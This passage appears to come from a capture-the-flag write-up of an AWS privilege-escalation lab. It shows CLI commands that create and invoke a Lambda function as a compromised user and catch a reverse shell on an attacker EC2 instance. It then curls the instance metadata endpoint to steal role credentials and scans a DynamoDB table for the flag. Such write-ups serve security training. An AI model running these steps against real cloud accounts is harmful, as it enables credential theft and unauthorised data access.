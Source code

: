 #### Creating and Invoking Lambda
- Based on the permissions above, the compromsed user only has permissions to create and invoke lambda resources with the following name `arn:aws:lambda:ap-southeast-1:<account id>:function:$(aws:username)-*` hence we will need to create a function with function name `<username>-<own function name>`

```
aws lambda create-function --function-name <username>-SI --role arn:aws:iam::<account-id>:role/lambda_agent_development_role --runtime python3.9 --handler <name of file>.<handler> --profile temp --zip-file fileb://SI.py.zip
```

![[Pasted image 20220902235022.png]]

- After creating the lambda functin above, we can now invoke the lambda function with the following command : 

```
aws lambda invoke --function-name <username>-SI outfile --profile temp
```

![[Pasted image 20220902235041.png]]

#### Getting Reverse Shell
- We have our own EC2 instance already set up to wait for the incoming reverse shell triggered by the `init_scipt`.

![[Pasted image 20220902235058.png]]

#### Post Exploitation
- Then from our Reverse Shell, we can curl the URL below : 

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2_agent_role
```

- This gives us the temporary credentials to `ec2_agent_role`. 

![[Pasted image 20220903022328.png]]

- We verify that the credentials are for ec2_agent_role with : 

```
aws sts get-caller-identity
```

![[Pasted image 20220903022720.png]]

- The now we start with querying the Dynamodb.

```
aws dynamodb list-tables --profile ec2agent

aws dynamodb describe-table --table-name flag_db --profile ec2agent

aws dynamodb scan --table-name flag_db --profile ec2agent
```

![[Pasted image 20220903022738.png]]
![[Pasted image 20220903022917.png]]
![[Pasted image 20220903023155.png]]
